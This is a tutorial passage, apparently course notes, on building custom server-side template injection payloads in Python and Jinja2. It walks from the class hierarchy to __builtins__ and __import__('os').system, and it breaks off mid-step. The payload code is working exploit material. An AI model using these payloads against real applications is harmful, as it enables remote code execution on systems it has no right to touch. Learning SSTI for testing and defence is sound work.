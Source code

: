 There will be times where we will be needing to construct a custom payload to exploit SSTI vulnerabilities. For example, a template engine that executes templates inside a sandbox, which can make exploitation difficult or impossible.
## Understanding Payload Creation with Python
1. The first step is to open up a Python environment and understand Python's hierarchy. Using `__mro__` or `mro()`, we can go back up the three of inherited objects in the Python environment.
```python
import flask

s = 'HTB'
s.__class__.mro()[1].__subclasses__()

[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 'traceback'>, <class 'super'>, <class 'range'>, <class 'dict'>, <class 'dict_keys'>, <class 'dict_values'>, <class 'dict_items'>, <class 'dict_reversekeyiterator'>, <class 'dict_reversevalueiterator'>, <class 'dict_reverseitemiterator'>, <class 'odict_iterator'>, <class 'set'>, <class 'str'>, <class 'slice'>, <class 'staticmethod'>, <class 'complex'>, <class 'float'>, <class 'frozenset'>, <class 'property'>, <class 'managedbuffer'>, <class 'memoryview'>, <class 'tuple'>, <class 'enumerate'>, <class 'reversed'>, <class 'stderrprinter'>, <class 'code'>, <class 'frame'>, <class 'builtin_function_or_method'>, <class 'method'>,
 <SNIP>
```
2. Next is to look for useful classes that can facilitate remote code execution. We can use the following function to do so:
```python
def searchfunc(name):
     x = s.__class__.mro()[1].__subclasses__()
     for i in range(len(x)):
        fn = x[i].__name__
        if fn.find(name) > -1:
            print(i, fn)

searchfunc('warning')
```
The reason we are searching for `warning` is because, this class imports Python's `sys` module, and from `sys`, we can reach the `os` module.
3. We will now attempt to reach the `import` by walking through the hierarchy.
```python
x = s.__class__.mro()[1].__subclasses__()
y = x[VALUE] # Note: Replace "VALUE" with the actual integer result from searchfunc

z = y()._module.__builtins__
for i in z:
	if i.find('import') > -1:
		print(i, z[i])
```
4. Test for RCE
```python
y()._module.__builtins__['__import__']('os').system('echo RCE')
```
## Custom Jinja2 Payload
We can replicate the steps above to achieve RCE using custom payload in Jinja template.

1. To test, we can start with the following payload
```python
{{ ''.__class__.__mro__ }}
```
2. Once confirmed, show all subclasses.
```python
{{ ''.__class__.__mro__[1].__subclasses__() }}
```
3. To make step 2 easier, we can just craft a for loop to put index on all subclasses.
```python
{% for i in range() %}
```